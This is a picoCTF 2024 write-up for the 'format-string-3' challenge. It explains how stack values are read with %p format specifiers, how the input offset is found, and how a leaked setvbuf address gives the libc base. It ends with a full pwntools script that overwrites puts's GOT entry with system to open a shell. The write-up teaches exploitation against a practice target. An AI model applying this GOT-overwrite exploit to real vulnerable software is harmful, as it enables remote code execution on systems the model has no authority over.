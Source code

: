 # Description

_#Medium_<br>
_#Binary_Exploitation_<br>
_#picoCTF_2024_<br>
_#format_string_<br>
_#browser_webshell_solvable_<br>

This program ***doesn't contain a win function***. How can you win?<br>
Download the binary [here](format-string-3).<br>
Download the source [here](format-string-3.c).<br>
Download libc [here](libc.so.6), download the interpreter [here](ld-linux-x86-64.so.2).<br>
Run the binary with these two files present in the same directory.

## Solution

When I first looked at the challenge title, I immediately thought it would be very difficult for me. Initially, I didn’t even know where to start, so I decided to look for writeups online.  

To begin, I examined the source code to identify any vulnerabilities that could be exploited. After conducting some research, I realized this challenge was more complex than the previous ones. It required leaking an address and finding the input string offset to overwrite and replace the puts function with the system function. Ultimately, the program will be ended up by executing system("/bin/sh"), which spawns a shell, and thus I can get the flag from the shell.

![image](https://github.com/user-attachments/assets/6cc812fe-ad8a-4d4d-a782-3402ec58fc9e)<br>
**The source code.*

Once I understood the concept of exploiting this challenge, I began by running the provided program to observe its execution and output. To do this, I connected to the challenge instance on the PicoCTF site by entering the command nc rhea.picoctf.net 64550 in the Kali terminal. To test upon the input and observe the output, I input a simple string as input to the program, which will be printed back to stdout(buf) function call.

![image](https://github.com/user-attachments/assets/4fe4f694-24f7-4c0d-80e0-d365cdd464e1)<br>
**The stdin and stdout function call.*

In this case, I know I can use format specifiers to read arbitrary stack values.

> [!NOTE]
> Arbitrary stack value  
> From what I understand, it seems to involve the addresses for inputs. Whenever we enter something into the program, it gets stored in the program's background process. Hence, we can simply use the format specifiers like %x (hexadecimal) or %p (pointers) to read the arbitrary values from the program.

![image](https://github.com/user-attachments/assets/487a6098-68f9-41c7-9f82-aa99b42c927d)<br>
**The output of input testing.*

From this, I tested again with the input `AAAAAAAA%2$p` to observe the output. The result displayed 8's A followed by the second argument, which should correspond to the second memory address.

![image](https://github.com/user-attachments/assets/aa5e5a23-b732-4de1-9f2c-5aaef71add85)<br>
**The testing result.*

> [!TIP]
> Ideally, the format specifier **%n$p** where n is an offset to point exactly at the start of the input string. You can do this manually (%p, %2$p, %3$p…) until %p points to the desired input string.

Now, I can determine the offset of the input string by entering 8 'A's followed by as many %p placeholders as possible. This allows me to clearly identify where the input appears in the displayed output.

![image](https://github.com/user-attachments/assets/3311c030-448c-46ee-b452-1596aa511be0)<br>
**The input is at the 38th position.*

Once I gathered all the necessary information, I prepared a script to incorporate everything needed to exploit the shell and retrieve the flag. The script used is shown below.

``` python
#!/usr/bin/env python3
from pwn import *

# Context setup
exe = "./format-string-3"
libc_path = "./libc.so.6"

context.binary = ELF(exe)
libc = ELF(libc_path)
context.terminal = ["tmux", "splitw", "-h"]

# Offset for the format string vulnerability
FMT_STR_OFFSET = 38


def leak_libc_base(io):
    """Leaks the libc base address from the provided setvbuf leak."""
    io.recvuntil(b'setvbuf in libc: ')
    setvbuf_leak = int(io.recvline().strip(), 16)
    log.info(f"Leaked setvbuf address: {hex(setvbuf_leak)}")

    libc_base = setvbuf_leak - libc.symbols["setvbuf"]
    log.info(f"Calculated libc base address: {hex(libc_base)}")

    libc.address = libc_base  # Set the base address for further calculations
    return libc_base


def create_payload():
    """Creates the format string payload to overwrite GOT entry for `puts`."""
    target_address = context.binary.got["puts"]
    system_address = libc.symbols["system"]
    log.info(f"Target address (GOT entry for puts): {hex(target_address)}")
    log.info(f"New function address (system): {hex(system_address)}")

    payload = fmtstr_payload(FMT_STR_OFFSET, {target_address: system_address})
    log.info(f"Generated payload: {payload}")
    return payload


def main():
    # Connect to the target binary (remote)
    io = remote("rhea.picoctf.net", 53133)

    # Attach GDB for debugging if required
    if args.GDB:
        gdb.attach(io, gdbscript="b *main+127\ncontinue")

    # Leak libc base address
    libc_base = leak_libc_base(io)

    # Create the payload to exploit the format string vulnerability
    payload = create_payload()

    # Send the payload
    io.sendline(payload)

    # Get an interactive shell
    io.interactive()


if __name__ == "__main__":
    main()
```
**This script was written with reference to [online author].(https://blog.thecyberthesis.com/blog/writeups/picoCTF/pwn/format-string-3).*
